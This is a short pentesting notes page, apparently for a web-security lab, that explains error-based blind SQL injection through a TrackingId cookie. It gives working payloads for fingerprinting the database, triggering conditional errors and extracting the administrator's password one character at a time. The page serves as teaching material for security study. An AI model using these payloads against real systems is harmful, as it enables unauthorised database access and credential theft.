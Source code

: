 {{< hint style=notes >}}
**Note**: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet from tib3rius -> (Boolean Error Inferential Exploitation)
{{< /hint >}}

{{< details summary="Example" >}}

```sh
# In this example the response are always the same. 
However, if you submit an invalid query you will get an error.

# 1 - Check if it's vulnerable
---

## Normal request. 200 OK
Cookie: TrackingId=xyz
---

## Cause error. 500 Internal Server Error
Cookie: TrackingId=xyz'


# 2 - Identify database [tiberius cheatsheet]. NOTE: add comment at the end...
---

## (MySql). 500 Internal Server Error
Cookie: TrackingId=xyz' AND 'foo' 'bar' = 'foobar'#
---

## (ORACLE). 200 OK
Cookie: TrackingId=a' AND LENGTHB('foo') = '3'--


# 3 - Test boolean error. 
---

## Error condition: 500 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
---

## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (2=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--


# 4 - Extract data
---

## Error condition: 500 OK (it means that first char is 'a')
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
---

## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'b') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
```
